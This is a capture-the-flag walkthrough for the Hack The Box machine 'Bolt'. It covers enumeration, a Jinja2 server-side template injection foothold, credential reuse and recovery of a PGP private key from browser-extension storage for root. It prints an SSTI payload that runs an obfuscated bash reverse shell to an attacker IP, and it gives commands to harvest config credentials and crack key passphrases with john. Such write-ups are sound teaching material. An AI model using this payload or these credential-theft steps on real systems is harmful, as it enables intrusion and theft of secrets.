 # Enumration

## Nmap Scan

```text
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
| ssl-cert: Subject: commonName=passbolt.bolt.htb/organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
```

## Enumrating port 80
Downloadable `image.tar`

Found `db.sqlite3` which contains hashed password for **admin** account

```shell
┌──(kali㉿kali)-[~/Documents/Bolt/image/a4ea7da8de7bfbf327b56b0cb794aed9a8487d31e588b75029f6b527af2976f2]
└─$ sqlitebrowser db.sqlite3 
```

Login in http://bolt.htb/ with **admin** credentials after cracking the hash

Website seems to be build using `Jinja Template` which have a `SSTI` vuln

## Fuzzing Sub-Domains on port 80

On fuzzing for Sub-Domains found :
- `mail.bolt.htb` <== Mail
- `demo.bolt.htb/register` ⇐ Demo site avalible register with Invite-Code

> The Invite Code can also be found in `image.tar`
> ```text
> ┌──(kali㉿kali)-[~/Documents/Bolt/image/41093412e0da959c80875bb0db640c1302d5bcdffec759a3a5670950272789ad/app/base]
> └─$ cat routes.py
> ```

---

# Foothold
After registering at http://demo.bolt.htb/ we can login at https://mail.bolt.htb/ with same credentials

**SSTI vuln** after changes in username in http://demo.bolt.htb/ and conforming the changes through mail in http://mail.bolt.htb/ we can get a reverse shell

- [SSTI Explanation](https://secure-cookie.io/attacks/ssti/)
- [Formaing payload to get Shell](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

```text
Payload :
{% if request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNzMvNDI0MiAwPiYxCg== | base64 -d | bash')['read']() == 'chiv' %} a {% endif %}
```

---

# Getting User

**MySQL** credentails can be found in file `/etc/passbolt/passbolt.php`

> Password for **MySQL** is reused as **SSH** for `eddie` user


# Priv ESC

After **SSH** in **eddie** we can see there is a mail for the user, We can read it using:
```bash
cat /var/mail/eddie
```

> Mail highlight security concern regarding **Passbolt PGP related Browser Extension** which stores the Private keys locally on machine

### Enumrating MySQL
a **PGP** message was found inside `secrets` table

To Decrypt a **PGP Message** we need **PGP Private Key** of eddie

### Private Key

To find Private Key :
```shell
grep -re "PGP PRIVATE"
```

And some File matchs the pattern, out of them 

```
strings Default/Local\ Extension\ Settings/didegimhafipceonhjepacocaffmoppf/000003.log 
```
Key can be read but it contains some not useful characters
So after copy pasting, open file in `vi`
do :
```text
:%s/\\\\r\\\\n/\r\/g
```
to clean up the file

Now crack the Private key to find the **PassPhrase** protecting the private key using **John**

1. Convert **PGP** key into **John** friendly format using `gpg2john`
	```shell
	gpg2john private.key > final.txt
	```
2. Crack using **JOHN**
	```shell
	john --wordlist=/usr/share/wordlist/rockyou.txt final.txt
	```

### Decrypting PGP Message

All Components needed to Decrypt the Message
1. PGP Messsage
2. Passphrase
3. PGP Private Key

Decrypt the **PGP** message from

- https://codref.org/pgp

## 💥 Become Root
```shell
su root
```
